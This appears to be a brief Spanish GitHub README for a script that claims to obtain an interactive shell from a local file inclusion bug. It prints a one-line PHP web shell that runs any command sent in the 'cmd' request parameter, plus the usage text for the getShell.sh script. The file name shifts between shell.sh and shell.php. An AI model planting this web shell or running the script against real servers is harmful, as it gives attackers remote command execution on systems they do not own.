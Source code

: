 # TTY BASH LINUX
## Script para obtener una tty funcional apartir de un LFI.

### Primeramente, debemos de tener un servidor corriendo de manera local
### Y tener un archivo llamando **shell.php**

```bash
markos: /var/www/html~$ vim shell.sh
```

```php
<?php
    echo '<prev>' . shell_exec($_REQUEST['cmd']) . '</prev>';
?>
```

```bash
./getShell.sh 
[*]Uso: ./getShell 

	u)Direccion URL

[*]Ejemplo: ./getShell -u http://127.0.0.1:8080/shell.php
```

### Haciendo esto, tenemos una TYY funcional para movernos como una consola interactiva
